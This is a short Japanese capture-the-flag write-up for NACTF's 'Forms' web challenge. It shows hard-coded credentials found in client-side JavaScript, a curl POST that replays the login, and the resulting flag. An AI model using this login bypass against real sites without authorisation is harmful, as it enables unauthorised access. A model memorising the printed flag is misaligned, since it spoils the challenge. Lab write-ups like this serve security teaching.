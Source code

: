 # Forms:Web:125pts
Skywalker has created 1000 login forms and only managed to make one of them work. Find the right one and login! He also went a bit crazy with the colors for some reason.  
[https://forms.challenges.nactf.com/](https://forms.challenges.nactf.com/)  

# Solution
URLにアクセスすると、1000個のフォームがある。  
Forms  
[site.png](site/site.png)  
wgetしてソースコードを見ると以下の記述がある。  
```html
~~~
    <script type="text/javascript">
    function verify() {
        user = document.getElementById("username").value;
        pass = document.getElementById("password").value;
        if (user === "admin" && pass === "password123") {
            document.getElementById("submit").value = "correct_login";
        } else {
            document.getElementById("submit").value = "false";
        }
        document.form.submit();
    }
</script>
</body>
</html>
```
正解のフォームのみsubmitが`correct_login`となる(idで検索して、正解のフォームを使用してもよい)。  
usernameが`admin`、passwordが`password123`でありsubmitに`correct_login`が入ったものをPOSTする。  
```bash
$ curl -X POST -d "username=admin&password=password123&submit=correct_login" https://forms.challenges.nactf.com/ | grep nactf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0                Flag: nactf{cl13n75_ar3_3v11}
100  612k    0  612k  100    56   400k     36  0:00:01  0:00:01 --:--:--  400k
```
flagが得られた。  

## nactf{cl13n75_ar3_3v11}